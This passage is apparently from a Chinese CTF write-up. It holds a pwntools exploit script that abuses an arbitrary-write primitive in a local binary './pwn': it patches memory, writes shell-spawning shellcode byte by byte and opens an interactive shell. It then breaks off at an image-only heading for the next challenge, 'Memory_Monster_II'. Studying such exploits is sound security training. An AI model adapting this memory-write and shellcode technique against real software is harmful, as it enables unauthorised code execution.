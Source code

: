 ```plain
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

def write_value(addr, value): 
    p.sendlineafter(b"addr: ", addr) 
    p.sendlineafter(b"value: ", value) 

write_value(b"0x600bcf", b"0xff") 
write_value(b"0x600970", b"0x70") 
write_value(b"0x600971", b"0x0a")   
write_value(b"0x600972", b"0x20") 

shellcode = asm(shellcraft.sh()) 
for i in range(len(shellcode)): 
    write_value(hex(0x600c60+i), hex(shellcode[i])) 

write_value(b"0x600bcf", b"0xff") 
p.interactive()
```

## Memory\_Monster\_II

### 思路

[![](assets/1706254573-673a4bf3c9cac8bcec339c9bdc829125.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151659-bad8336e-bb51-1.png)

